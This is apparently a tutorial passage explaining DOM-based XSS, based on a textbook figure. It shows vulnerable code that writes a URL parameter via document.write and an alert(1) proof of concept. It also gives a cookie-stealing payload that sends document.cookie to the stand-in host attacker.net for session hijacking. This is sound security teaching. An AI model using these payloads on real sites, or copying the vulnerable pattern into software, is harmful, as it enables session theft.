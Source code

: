 ## 🧠 So What's Happening?

Even though the server didn't return your payload, **the client-side JavaScript did**.

This is:

* **Pure DOM injection**
* No server echo
* The code runs in the context of the app (same origin), so it can steal cookies, hijack sessions, etc.

---

## 🧪 Quick DOM-Based Payload Demo (in Lab or Practice App)

If the app has code like:

```js
const input = new URLSearchParams(location.search).get('input');
document.write(input);
```

And you visit:

```
https://victim.com/page.html?input=<script>alert(1)</script>
```

💥 The script executes. DOM-Based XSS.

---

## 🎯 Figure 12-5 — Attack Flow Explained

Let’s break down the visual flow (again, written out since you can’t see the figure):

1. **User logs in** and gets session cookie:

   ```
   Set-Cookie: session=abcdef123456;
   ```
2. **Attacker creates this URL**:

   ```
   http://mdsec.net/error/18/Error.ashx?message=<script>var i=new Image;i.src='http://attacker.net/?'+document.cookie</script>
   ```
3. **Attacker tricks victim into clicking it** (via email, social media, redirect, etc.)
4. **Server returns a normal error page**, but...
5. Client-side JS processes the `message` param and writes it into the DOM via `document.write()`
6. Now the malicious JS runs *in the context of `mdsec.net`*:

   ```js
   var i=new Image;
   i.src='http://attacker.net/?'+document.cookie;
   ```
7. Victim's **session token is exfiltrated** to attacker’s server
8. Attacker uses it to **hijack the session**

---